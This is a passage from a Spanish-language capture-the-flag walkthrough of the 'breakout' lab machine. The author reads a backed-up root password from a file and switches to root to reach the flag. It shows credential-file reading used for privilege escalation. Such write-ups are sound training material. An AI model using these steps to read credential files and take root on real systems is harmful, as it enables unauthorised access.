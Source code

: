 ```bash
drwx------  2 cyber cyber   4096 Oct 19 13:59 .spamassassin
-rwxr-xr-x  1 root  root  531928 Oct 19 15:40 tar
drwxr-xr-x  2 cyber cyber   4096 Oct 20 07:52 .tmp
drwx------ 16 cyber cyber   4096 Oct 19 14:26 .usermin
-rw-r--r--  1 cyber cyber     48 Oct 19 14:31 user.txt
cyber@breakout:~$
```

Ahora si tenemos permisos de lectura y escritura del archivo `.old_pass.bak`:

```bash
cyber@breakout:~$ cat .old_pass.bak
Ts&4&YurgtRX(=~h
cyber@breakout:~$
```

Tenemos una contraseña la cual podría tratarse del usuario **root**:

```bash
cyber@breakout:~$ su root
Password: 
root@breakout:/home/cyber# whoami
root
root@breakout:/home/cyber#
```

Ya somos el usuario **root** y podemos visualizar la flag (r00t.txt).
